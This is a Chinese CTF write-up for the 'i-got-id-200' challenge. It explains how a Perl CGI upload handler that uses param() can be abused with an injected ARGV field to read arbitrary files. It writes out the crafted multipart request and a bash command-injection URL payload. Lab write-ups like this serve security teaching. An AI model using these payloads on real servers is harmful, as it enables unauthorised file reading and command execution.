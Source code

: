 ```yaml
---
 layout:   post        # 使用的布局（不需要改）
 title:   i-got-id-200   # 标题 
 subtitle:  攻防世界 #副标题
 date:    2020-08-05    # 时间
 author:   yanmie       # 作者
 header-img: img/.jpg  ##标签这篇文章标题背景图片
 catalog: true            # 是否归档
 tags:                
    - CTF

--- 
```


 题目描述：嗯。。我刚建好了一个网站

 = = 。。。

 打开环境

 ![arLBlR.png](https://s1.ax1x.com/2020/08/05/arLBlR.png)

 分别点进去看一下子。

 /cgi-bin/hello.pl ：

   	`Hello World from Perl!`

 /cgi-bin/forms.pl ：

 ![arLWfH.png](https://s1.ax1x.com/2020/08/05/arLWfH.png)

 /cgi-bin/file.pl ：

 ![s](https://s1.ax1x.com/2020/08/05/arL41A.png)

从url和内容看出是使用`perl`写的，利用了`CGI`。

文件上传页面可以上传文件，并且将文件内容打印出来。

![aRYdHK.png](https://s1.ax1x.com/2020/08/06/aRYdHK.png)

看了看大佬们的wp.

用了param()函数。

```
param()函数会返回一个列表的文件但是只有第一个文件会被放入到下面的接收变量中。如果我们传入一个ARGV的文件，那么Perl会将传入的参数作为文件名读出来。对正常的上传文件进行修改,可以达到读取任意文件的目的:
```

这里附上网上大佬们猜测的后台代码：

```perl
use strict;
use warnings; 
use CGI;
my $cgi= CGI->new;
if ( $cgi->upload( 'file' ) ) { 
    my $file= $cgi->param( 'file' );
     while ( <$file> ) { print "$_"; }
}
```

那么，这里就存在一个可以利用的地方，param()函数会返回一个列表的文件但是只有第一个文件会被放入到下面的file变量中。而对于下面的读文件逻辑来说，如果我们传入一个ARGV的文件，那么Perl会将传入的参数作为文件名读出来。这样，我们的利用方法就出现了：在正常的上传文件前面加上一个文件上传项ARGV，然后在URL中传入文件路径参数，这样就可以读取任意文件了。

先bp抓包，然后将上传的文件名和内容复制一份粘贴，

```
-----------------------------25742487583968848633464242372
Content-Disposition: form-data; name="file";
Content-Type: image/png

ARGV
```

将filename删去，内容修改为ARGV，读取file.pl看看有什么（看url猜它在/var/www/cgi-bin/下！）

![aRNPJg.png](https://s1.ax1x.com/2020/08/06/aRNPJg.png)

![aRNYex.png](https://s1.ax1x.com/2020/08/06/aRNYex.png)



 发现确实使用了param()函数，然后我们利用bash来进行读取当前目录下的文件

payload为：

```shell
/cgi-bin/file.pl?/bin/bash%20-c%20ls${IFS}/|
```

%20为空格，可换成+号

![aRNWtS.png](https://s1.ax1x.com/2020/08/06/aRNWtS.png)

 列出了根目录下的内容，发现flag，直接读取。

![aRUaBq.png](https://s1.ax1x.com/2020/08/06/aRUaBq.png)

参考：

https://www.guildhab.top/?p=867

https://www.runoob.com/perl/perl-tutorial.html

https://www.jianshu.com/p/c4dc22699a42



